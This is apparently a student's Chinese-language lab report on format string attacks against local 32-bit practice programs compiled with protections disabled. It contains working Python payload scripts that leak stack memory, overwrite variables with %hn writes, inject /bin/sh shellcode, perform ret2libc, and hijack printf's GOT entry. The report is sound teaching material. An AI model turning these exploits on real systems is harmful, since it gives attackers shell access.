# lab1 格式化字符串攻击


# 0 编译源文件

关闭ASLR设置：

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

开启ASLR设置

```bash
sudo sysctl -w kernel.randomize_va_space=2
```

编译c

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 源文件名.c -o 可执行文件名
```

- -fno-stack-protector 关闭Stack Guard 保护
- -fstack-protector 开启Stack Guard 保护
- -no-pie 关闭pie
- -z execstack 开启栈可执行
- -z noexecstack 关闭栈可执行
- -m32 32位编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog1.c -o prog1
gcc -fno-stack-protector -no-pie -z execstack -m32 prog2.c -o prog2
```


# 1 格式化字符串漏洞

见pdf

# 2 格式化字符串攻击

## 2.1 Crash Program

1.py

```python
#!/usr/bin/python3
# crash the program

payload = "%s%s%s%s%s%s".encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

```bash
python3 1.py
./prog1 < input
```

程序崩溃



## 2.2 Print Out Data on the Stack

2.py

```python
#!/usr/bin/python3
# Print Out Data on the Stack

# print out 7*4 bytes of data on the stack
payload = "%x.%x.%x.%x.%x.%x.%x\n".encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

```bash
python3 2.py
./prog1 < input
```

输出结果



# 3 任务1

## 3.1  查看变量var位置

关闭ASLR

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog1.c -o prog1
```

运行程序查看变量var的地址



位于`ffffcf68`处

## 3.2 测试valist到字符串首字符的长度

输出vaList开始40个双字的值，将payload的开头设为val的地址，看第几个双字的值为val的地址

task1_0.py

```python
#!/usr/bin/python3
# task1_0: test the length of vaList to the payload

# target address + %x*40 + \n
payload = "\x68\xcf\xff\xff"+"val:"+ ".%8x"*40 + "\n"

payload = payload.encode('latin-1')
with open('input', 'wb') as f:
  f.write(payload)
```

运行结果：



发现第7个位置是字符串的起始位置。

## 3.3 修改var的值为0x66887799

先修改高字节两位为6688，再修改低字节两位为7799。

task1_1.py

```python
#!/usr/bin/python3
# Change Program’s Data in the Memory

# target address
addr = 0xffffcf68
# 1: modify the high 2 bytes
payload = (addr+2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 2: modify the low 2 bytes
payload += (addr).to_bytes(4,byteorder='little')
# new value
new_val = 0x66887799

# 3: calculate the length of the first write
# 0x6688 - 4 * 3 - 5*8 = 26196
len1 = 0x6688 - 4 * 3 - 5*8
# 4: calculate the length of the second write
# 0x7799 - 0x6688 = 4369
len2 = 0x7799 - 0x6688

# 5+1 = 6
# 7th is the address of the high 2 bytes
# 9th is the address of the low 2 bytes
payload += ("%.8x"*5 + "%.{}x".format(len1) + "%hn" + "%.{}x".format(len2) + "%hn").encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

Data at target address被修改

运行结果：



## 3.4 修改var的值为0xdeadbeef

task1_2.py

```python
#!/usr/bin/python3
# task1_2: change the value of the target address to 0xdeadbeef

# target address
addr = 0xffffcf68
# ad < be < de < ef
# 1: modify the 3rd byte
payload = (addr+2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 2: modify the 2nd byte
payload += (addr+1).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 3: modify the 4th byte
payload += (addr+3).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 4: modify the 1st byte
payload += (addr).to_bytes(4,byteorder='little')
# new value
new_val = 0xdeadbeef

# 0xad - 4*7 - 5*8
len1 = 0xad - 4*7 - 5*8
len2 = 0xbe - 0xad
len3 = 0xde - 0xbe
len4 = 0xef - 0xde

payload += ("%.8x"*5 + "%.{}x".format(len1) + "%hhn" + "%.{}x".format(len2) + "%hhn" + "%.{}x".format(len3) + "%hhn" + "%.{}x".format(len4) + "%hhn").encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

运行结果：



# 4 任务2

## 4.1 查看信息

关闭ASLR

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog2.c -o prog2
```

运行程序查看变量input的地址, ebp地址, 返回地址



## 4.2 测试valist到字符串首字符的长度

输出vaList开始40个双字的值，将payload的开头设为字符串的地址，看第几个双字的值为val的地址

task2_0.py

```python
#!/usr/bin/python3
# task2_0: test the length of vaList to the payload

# target address + %x*40 + \n
payload = "\x04\xcf\xff\xff"+"val:"+ ".%8x"*40 + "\n"

payload = payload.encode('latin-1')
with open('input', 'wb') as f:
  f.write(payload)
```

结果



测试长度应为17.

## 4.3 shellcode注入

task2_1.py

```python
#!/usr/bin/python3
# task2_1 : shellcode injection
import sys


local_shellcode= (
  "\x31\xc0\x31\xdb\xb0\xd5\xcd\x80"
  "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50"
  "\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
).encode('latin-1')

# ebp(frame pointer)+4 = return address
addr = 0xffffcee8 + 4

payload =  (addr).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
payload += (addr+2).to_bytes(4,byteorder='little')

# the start address of the buffer + 95 = the address of the shellcode
# 0xffffcf04 + 95 = 0xffffcf63
target = 0xffffcf63
len1 = 0xcf63 - 4 * 3 - 15 * 8
len2 = 0xffff - 0xcf63
s = "%.8x" * 15 + "%." + str(len1) + "x" + "%hn" + "%." + str(len2) + "x" + "%hn" + "\n"
payload += (s).encode('latin-1')
# output the length of payload to get the offset
print(len(payload))
payload += local_shellcode

# Write the payload to badfile
with open("input", "wb") as f:
  f.write(payload)
```

运行结果：



## 4.4 ret2libc

编译，开启栈不可执行

```bash
gcc -fno-stack-protector -no-pie -z noexecstack -m32 prog2.c -o prog2_noexec
```

寻找system, exit, /bin/sh地址

system地址：

`readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system@"`



exit地址：

`readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " exit@"`



/bin/sh地址

`ropper --file /lib/i386-linux-gnu/libc.so.6 --string "/bin/sh"`



task2_2.py

```python
#!/usr/bin/python3
# task2_2: ret2libc
import sys

# ebp(frame pointer)+4 = return address
addr = 0xffffced8 + 4
payload  = (addr + 10).to_bytes(4,byteorder='little')  # high 2 bytes of /bin/sh string address
payload += ("abcd").encode('latin-1')           
payload += (addr + 8).to_bytes(4,byteorder='little')  # low 2 bytes of /bin/sh string address
payload += ("abcd").encode('latin-1')
payload += (addr + 6).to_bytes(4,byteorder='little')  # high 2 bytes of exit address
payload += ("abcd").encode('latin-1')
payload += (addr + 4).to_bytes(4,byteorder='little')  # low 2 bytes of exit address
payload += ("abcd").encode('latin-1')
payload += (addr + 2).to_bytes(4,byteorder='little')  # high 2 bytes of system address
payload += ("abcd").encode('latin-1')
payload += (addr).to_bytes(4,byteorder='little')      # low 2 bytes of system address

# system address : 0x0004c800 + 0xf7c00000 = 0xf7c4c800
# exit address   : 0x0003bc90 + 0xf7c00000 = 0xf7c3bc90
# /bin/sh address: 0x001b5faa + 0xf7c00000 = 0xf7db5faa

# Construct the format string
offset1 = 0xf7db  - len(payload) - 15*8
offset2 = 0x15faa - 0xf7db
offset3 = 0x1f7c3 - 0x15faa
offset4 = 0x2bc90 - 0x1f7c3
offset5 = 0x2f7c4 - 0x2bc90
offset6 = 0x3c800 - 0x2f7c4
payload += ("%.8x" * 15 +
    "%.{}x".format(offset1) + "%hn" +
    "%.{}x".format(offset2) + "%hn" +
    "%.{}x".format(offset3) + "%hn" +
    "%.{}x".format(offset4) + "%hn" +
    "%.{}x".format(offset5) + "%hn" +
    "%.{}x".format(offset6) + "%hn").encode('latin-1')
# Write the payload to input
with open("input", "wb") as f:
    f.write(payload)
```

运行结果



# 5 任务3

## 5.1 开启ASLR

开启ASLR:

```bash
sudo sysctl -w kernel.randomize_va_space=2
```

## 5.2 查找got表中printf地址和win函数地址

使用gdb调试

查看got表printf地址：

先看plt表地址为0x8049040



查看got地址为0x804c004



查看win函数地址为0x08049186

disas win



## 5.3 task3_1.py

```python
#!/usr/bin/python3
# task3_1: hook got

# got.printf = 0x804c004
addr = 0x804c004
payload =  (addr + 2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
payload += (addr).to_bytes(4,byteorder='little')

# the address of win() = 0x08049196
target = 0x08049186
# Construct the format string
offset1 = 0x0804 - 4*3 - 15*8
offset2 = 0x9186 - 0x0804

payload += ("%.8x" * 15 +
    "%.{}x".format(offset1) + "%hn" +
    "%.{}x".format(offset2) + "%hn"
).encode('latin-1')

# Write the payload to badfile
with open("input", "wb") as f:
  f.write(payload)
```

运行结果：


